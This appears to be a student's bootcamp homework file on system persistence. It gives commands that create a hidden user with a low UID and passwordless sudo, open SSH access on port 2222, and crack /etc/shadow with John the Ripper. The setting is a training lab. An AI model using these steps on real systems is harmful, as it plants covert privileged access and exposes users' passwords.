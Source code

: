 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image\sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image\password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image\UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image\UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image\sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image\sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ![sshfile.png](image\sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image\sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

